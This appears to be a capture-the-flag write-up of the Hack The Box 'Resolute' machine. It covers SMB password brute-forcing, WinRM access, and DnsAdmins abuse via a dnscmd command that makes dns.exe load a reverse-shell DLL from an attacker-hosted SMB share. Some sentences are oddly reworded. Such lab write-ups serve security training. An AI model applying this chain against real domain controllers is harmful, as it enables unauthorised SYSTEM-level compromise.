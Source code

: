 ```yaml
---
layout: single
title: DLL injection in dns.exe & Abusing DNS Admin Membership PrivEsc in Active Directory
excerpt: "Resolute was a medium level Windows computer that included a list of users and login discoveries for the SMB system. This password has been pulsed into the SMB login via hydra to the usernames identified. The listing of the privilege escalation led us to another member of the DnsAdmins group. Then, by violating his admin's right to charge the DLL injection to obtain the Admin shell."
date: 2020-05-31
classes: wide
header:
  teaser: /asset/htbwriteup/windows/resolute/intro.PNG
  teaser_home_page: true
  icon: /assets/hackthebox.webp
categories:
  - hackthebox
permalink: /htb/htbResolute
tags: [dll injection, dnscmd.exe, smbserver.py]

---
```


# HTB - Resolute

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/intro.PNG)

Resolute was a medium level Windows computer that included a list of users and login discoveries for the SMB system. This password has been pulsed into the SMB login via hydra to the usernames identified. The listing of the privilege escalation led us to another member of the DnsAdmins group. Then, by violating his admin's right to charge the DLL injection to obtain the Admin shell.

---
## Recon

- Running nmap scan give us the following information as below.
    
![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/1.png)

- As windows machine, the interesting part of course the SMB services, let's digging in via enum4linux.
- Don't forget to list all the potential accounts in the recon part. It's helping us to move further you know...
- Here, we have hint on `marko` account. See the description there. `Password set to Welcome123!`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/2.png)

- Trying to log into `marko` account doesn't work. The credential may be wrong.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/3.png)

- We have the list of usernames right? Let's try brute-force the smb login with `hydra`.
- Yayy, we have the right credential for `melanie` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/4.png)

---
## Exploit

- Nmap scan showed that port 5985 is open. It's the default port for WinRM so catch the user flag by logging in via `evil-winrm` to melanie account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/5.png)

- After enumerating the host, we don't meet any hint. Maybe by viewing hidden files give us hint? Let's `dir-Force` and enum for hidden file of `PSTranscripts`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/6.png)

- In the `PSTranscripts` folder, we have a text file with Resolute name on it. Open the text file, give us hint of `Powershell` script with a potential credential of `ryan` account.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/7.png)

- Then, moving into `ryan` account and see what we can do there.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/8.png)

---
## Privilege escalation

### First method:

- On `ryan` desktop, there is a `note.txt` as below. What does that mean??

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/9.png)

- Enum for the groups information reveal us that ryan has `DnsAdmins` privilege. 
- If the account has `DNSAdmins` in it’s group memberships, then the user belongs to the group and we can abuse his membership to escalate to Administrator rights.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/11.png)

- Based on this [article](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2), we are launching an arbitrary DLL of SYSTEM authority on a DNS server. i.e., we must create a DLL that contains the reverse tcp code and implant it into the `dns.exe` process on the victim's DNS server (DC).
- Building our DLL `shell_reverse_tcp` payload with `msfvenom` and output to `privesc.dll`.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/12.png)

### Impacket’s smb server to the rescue:

- Hosting our payload with `smbserver.py`.
- We chose this as, in most cases, Windows allows UNC paths and samba shares by default. Also, there are times when the victim's AV or Defender can delete the payload if it's uploaded, so we'll stick to the smb server for this one. Nonetheless, working with smb can be difficult on * nix, but thankfully, we have scripts that can make the task a lot simpler. We must use the Impacket smb server to host our payload.

sudo python smbserver.py <**shareName**> <**path/of/share**> eg `sudo smbserver.py share ./`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/13.png)

### Injecting the DLL in dnscmd.exe into PS:

- `dnscmd.exe < FQDN of DC> /config /serverlevelplugindll \\UNC_path`

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/14.png)

### Listening for connection and restarting dns if necessary:

- Stop and restart the DNS service as below... 

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/15.png)

- Listen for the connection and ... we have Administrator privilege.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/16(root).png)

### Second method:

- Using `windows/smb/psexec_psh` module straight into Admin shell.

![](https://raw.githubusercontent.com/faisalfs10x/faisalfs10x.github.io/master/asset/htbwriteup/windows/resolute/10(root).png)

Thanks...
